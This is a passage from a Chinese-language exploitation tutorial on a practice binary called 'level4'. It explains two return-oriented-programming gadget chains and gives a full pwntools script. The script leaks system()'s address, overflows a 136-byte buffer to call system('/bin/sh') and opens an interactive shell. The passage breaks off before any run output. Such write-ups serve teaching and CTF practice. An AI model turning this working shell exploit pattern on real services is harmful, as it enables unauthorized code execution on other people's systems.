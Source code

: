 通过搜索结果我们发现，`0x00000000000f4739 : pop rax ; pop rdi ; call rax`也可以完成我们的目标。首先将rax赋值为system()的地址，rdi赋值为“/bin/sh”的地址，最后再调用call rax即可。

``` bash
payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)
```

所以说这两个ROP链都可以完成我们的目标，随便选择一个进行攻击即可。最终exp如下：

``` python
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so.6')
p = process('./level4')
#p = remote('127.0.0.1',10001)

binsh_addr_offset = int(next(libc.search('/bin/sh'),16) - libc.symbols['system'])
print "binsh_addr_offset= " + hex(binsh_addr_offset)

pop_ret_offset = 0x0000000000021102 - libc.symbols['system']
print "pop_ret_offset= " + hex(pop_ret_offset)

#pop_pop_call_offset = 0x0000000000107419 - libc.symbols['system']
#print "pop_pop_call_offset= " + hex(pop_pop_call_offset)

print "\n##########receving system addr############\n"
system_addr_str = p.recvuntil('\n')
system_addr = int(system_addr_str,16)
print "system_addr= " + hex(system_addr)

binsh_addr = system_addr + binsh_addr_offset
print "binsh_addr= " + hex(binsh_addr)

pop_ret_addr = system_addr + pop_ret_offset
print "pop_ret_addr= " + hex(pop_ret_addr)

#pop_pop_call_addr = system_addr + pop_pop_call_offset
#print "pop_pop_call_addr = " + hex(pop_pop_call_addr)

payload = 'A'*136
payload += p64(pop_ret_addr)
payload += p64(binsh_addr)
payload += p64(system_addr)

#payload = 'A'*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)

print "\n###########sending payload###########\n"
p.send(payload)
p.interactive()
```

运行结果如下：
